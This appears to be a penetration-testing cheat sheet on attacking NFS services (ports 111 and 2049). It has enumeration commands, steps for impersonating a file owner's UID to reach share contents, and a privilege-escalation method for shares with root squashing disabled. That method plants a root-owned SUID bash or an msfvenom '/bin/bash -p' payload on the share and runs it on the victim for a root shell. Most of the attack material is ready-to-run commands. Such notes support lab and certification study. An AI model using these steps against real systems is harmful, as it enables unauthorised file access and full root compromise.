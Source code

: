 # 111, 2049 - NFS

**NFS** is a server/client system enabling users to share files and directories across a network and allowing those shares to be mounted locally. While both useful and versatile, NFS has no protocol for authorization or authentication, making it a common pitfall for misconfiguration and therefore exploitation.

{% hint style="danger" %}
If you mount a folder which contains files or folders only accesible by some user (by UID). You can create locally a user with that UID and using that user you will be able to access the file/folder. The mount shows user and group id for everything. If it does not show a user or group on my host/VM, there is no user with that id.

```bash
# Create a user 
sudo adduser testuser
# Assign a UID to that user
sudo usermod -u 9999 testuser
# Assign a GID to that user
sudo groupmod -g 9999 testuser
```
{% endhint %}

{% hint style="success" %}


{% code overflow="wrap" fullWidth="true" %}
```
If we mount NFS share and see user 1000 or group 1000 or any other -> edit our UID/PID on /etc/passwd and /etc/groups
to match it, then we will be able to access it or write files and if so, try to place SUID files so from the target we could escalate privileges.

If we want to escalate to another user -> see /etc/passwd on the target to check UID/GID of that user ->
change our local user on our attacking machine to those values -> then write a setuid.c file as our local user ->
when we run that binary on the target, we will become the target user

root_squash configuration -> anything I do as root on my VM will be done as nobody on the target.
```
{% endcode %}
{% endhint %}

## Best method

```bash
nmap -sV -p 111 --script=rpcinfo $IP

# If we see service nfs:
nmap -p 111 --script nfs* $IP

# Then we mount the directory we see. -o vers=2 might be necessary to use version 2
mkdir /tmp/mount
sudo mount -t nfs [-o vers=2] $IP:$PATH /tmp/mount/ -nolock
cd /tmp/mount && ls

# If there are files with a specific UID:
sudo adduser test
# change UID of user to that specific by modifying /etc/passwd

# When we finish, we unmount the share:
sudo umount /tmp/mount
```

## Alternatives

{% code overflow="wrap" fullWidth="true" %}
```bash
root@kali:~ nc -nv 10.11.1.72 2049
(UNKNOWN) [10.11.1.72] 2049 (nfs) open

showmount -e $IP

mkdir /tmp/mount
sudo mount -t nfs IP:share /tmp/mount/ -nolock

################# EXPLOIT NFS
Bash executable https://github.com/TheRealPoloMints/Blog/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash

    NFS Access ->

        Gain Low Privilege Shell ->

            Upload Bash Executable to the NFS share ->
Download the bash executable to your Downloads directory. 
Then use "cp ~/Downloads/bash ." to copy the bash executable to the NFS share. 
The copied bash shell must be owned by a root user, you can set this using "sudo chown root bash"

                Set SUID Permissions Through NFS Due To Misconfigured Root Squash ->
sudo chmod +s bash
                    Login through SSH ->

                        Execute SUID Bit Bash Executable ->

                            ROOT ACCESS

---------------------------
rpcinfo -p <IP>
showmount <IP> -a
mount 10.11.1.X:/sites/ ./testing
```
{% endcode %}

## Privesc

Files created via **NFS** inherit the **remote** user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.

{% code overflow="wrap" fullWidth="true" %}
```bash
cat /etc/exports
# If there is a share with root squashing disabled, we can exploit it.

# If it is version 3 (or below??) check the option of uploading SUID root to achieve privesc

# Do this on your Kali machine as root:
mkdir /tmp/nfs
sudo mount -t nfs -o vers=2 10.10.10.10:/srv/exportnfs /tmp/nfs/ -nolock
mount -o rw,vers=2 $TARGET_IP:/$SHARE /tmp/nfs
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
chmod +xs /tmp/nfs/shell.elf

# Now back to the victim machine, we execute the file to gain a root shell:
/tmp/shell.elf

# If we get this error
mount.nfs: requested NFS version or transport protocol is not supported
try -o vers=1/2/3
```
{% endcode %}

## References

| [https://docs.oracle.com/cd/E19683-01/816-4882/6mb2ipq7l/index.html](https://docs.oracle.com/cd/E19683-01/816-4882/6mb2ipq7l/index.html) |
| ---------------------------------------------------------------------------------------------------------------------------------------- |
| [https://www.datto.com/library/what-is-nfs-file-share](https://www.datto.com/library/what-is-nfs-file-share)                             |
| [https://wiki.archlinux.org/title/NFS](https://wiki.archlinux.org/title/NFS)                                                             |
